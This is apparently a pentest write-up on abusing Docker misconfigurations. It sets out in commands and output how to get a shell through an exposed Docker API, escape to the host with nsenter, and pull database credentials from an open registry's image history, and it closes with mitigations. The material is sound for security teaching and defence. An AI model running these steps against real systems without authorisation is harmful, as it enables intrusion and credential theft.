 # Abusing docker misconfiguration
I took advantage of chained misconfiguration to escape the container and get access to host OS
## First misconfiguration
The container was externally exposed

    nmap -sV -p 2375 192.168.1.100
    ...
    PORT     STATE SERVICE VERSION
    2375/tcp open  docker  Docker 20.10.20 (API 1.41)
    Service Info: OS: linux
Find remote running containers

    docker -H tcp://192.168.1.100:2375 ps                             
    CONTAINER ID   IMAGE     ...   
    2225bfdee7ec   devsrv01  ...       

Get a shell inside the remote container

    docker -H tcp://192.168.1.100:2375 exec -it 2225bfdee7ec /bin/bash
    root@2225bfdee7ec:/etc/ssh#     
## Inspect the container

    root@2225bfdee7ec:/etc/ssh# ps aux
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root           1  0.0  0.5 102540 11388 ?        Ss   13:14   0:03 /sbin/init
    ...

There are a total of 191 running process, very strange for a container: maybe the container is sharing the same namespace with the host OS? That would imply the container can communicate with the processes on the host.

### How to know that we are in a container?
#### Inspect running process
Usually issuing:

    ps aux
    USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root         1  0.0  0.2  72304  5460 ?        Ss   12:22   0:00 /usr/sbin/sshd -D
    root         6  0.0  0.3  72360  6512 ?        Rs   12:39   0:00 sshd: root@pts/0
    root         8  0.0  0.1  20256  3832 pts/0    Ss   12:39   0:00 -bash
    root        26  0.0  0.1  36152  3252 pts/0    R+   12:44   0:00 ps aux

As shown above we have only few process. 
#### Look for dockerenv

    cd / && ls -lah
    total 88K
    drwxr-xr-x   1 root root 4.0K Sep 20 12:42 .
    drwxr-xr-x   1 root root 4.0K Sep 20 12:42 ..
    -rwxr-xr-x   1 root root    0 Nov 10  2020 .dockerenv
    ...

#### Inspects cgroup namespace
As we know Cgroup are used by Docker:

    cd /proc/1 && cat cgroup | grep docker
    12:pids:/docker/8a9427527c82750ca34a86a4003879e35a381d3cd9438ef8975c2b4791b4d886
    11:devices:/docker/8a9427527c82750ca34a86a4003879e35a381d3cd9438ef8975c2b4791b4d886
    10:cpuset:/docker/8a9427527c82750ca34a86a4003879e35a381d3cd9438ef8975c2b4791b4d886
    9:freezer:/docker/8a9427527c82750ca34a86a4003879e35a381d3cd9438ef8975c2b4791b4d886
    8:hugetlb:/docker/8a9427527c82750ca34a86a4003879e35a381d3cd9438ef8975c2b4791b4d886
    6:cpu,cpuacct:/docker/8a9427527c82750ca34a86a4003879e35a381d3cd9438ef8975c2b4791b4d886
    5:memory:/docker/8a9427527c82750ca34a86a4003879e35a381d3cd9438ef8975c2b4791b4d886
    4:blkio:/docker/8a9427527c82750ca34a86a4003879e35a381d3cd9438ef8975c2b4791b4d886
    3:perf_event:/docker/8a9427527c82750ca34a86a4003879e35a381d3cd9438ef8975c2b4791b4d886
    2:net_cls,net_prio:/docker/8a9427527c82750ca34a86a4003879e35a381d3cd9438ef8975c2b4791b4d886
    1:name=systemd:/docker/8a9427527c82750ca34a86a4003879e35a381d3cd9438ef8975c2b4791b4d886

## Abusing the second misconfiguration: shared host namespace
Here we are abusing <b>nsenter</b> command, that allows us to execute a processes in a differen namespace. 
In this scenario, since the container can see the <i>/sbin/init</i> process on the host machine, we can try to execute a shell on the host context. Let's give it a try: 

    root@2225bfdee7ec:/etc/ssh# hostname
    2225bfdee7ec
    root@2225bfdee7ec:/etc/ssh# nsenter --target 1 --mount --uts --ipc --net /bin/bash
    root@xxxxx.local:/# whoami
    root
And here we are!
For more information on the nsenter (namespace enter) command you can consult the related manual.

## Mitigations
Protect Docker daemon socket. To accomplish that you can:
1. Don't expose it
2. [Use SSH](https://docs.docker.com/engine/security/protect-access/#use-ssh-to-protect-the-docker-daemon-socket)
3. [Use TLS\HTTPS](https://docs.docker.com/engine/security/protect-access/#use-tls-https-to-protect-the-docker-daemon-socket). More information using [Self-signed certificates](https://gist.github.com/nicosingh/d8bf0defdd4c911bda3392e420d665dd)
4. Don't run containers in <b>privileged mode</b>. It's recommended assigning specific capabilities to a container, rather than running it with the --privileged flag. More info about capabilities [here](https://docs.docker.com/engine/security/#linux-kernel-capabilities).
5. Scan you docker images. Some toools are: docker scout, grype

## A final note
Actually I faced this scenario in a real engagement.

## Abuse Docker Registry to get repo manifest
### Discover

     nmap -sV docker-srv.local
     ...
     PORT     STATE SERVICE VERSION
    ...
    5000/tcp open  http    Docker Registry (API: 2.0)
    7000/tcp open  http    Docker Registry (API: 2.0)

### List all registered repo for the second registry

    curl http://docker-srv.local:7000/v2/_catalog
    {"repositories":["app01/webserver"]}

### List all tags related to the repo

    curl http://docker-srv.local:7000/v2/app01/webserver/tags/list
    {"name":"app01/webserver","tags":["prod"]}

### Get the related manifest file for the tag

    curl http://docker-srv.local:7000/v2/app01/webserver/manifests/prod
    ...
    {
       "schemaVersion": 1,
       "name": "app01/webserver",
       "tag": "prod",
       "architecture": "amd64",
       "fsLayers": [
          {
             "blobSum": "sha256:7a668bba7a1a84d9db8a2fb2826f777e64233780a110041db8d42b77515cf57"
          },
    ....
    "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\
         ...
         "printf \\\"Username: admin\\\\nPassword: _admin$23_\\\\n\\\"... /var/www/html/database.config\"],\"Image\":\"sha256:1e4a2d11384ed8ac500f2762825c3f3d134ad5d78813a5d044357b66d4c91800\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\"
         ....

Above we can see that we retrived the credentials for the a DB, from the history.

## Explore an image
We can use [Dive](https://github.com/wagoodman/dive)
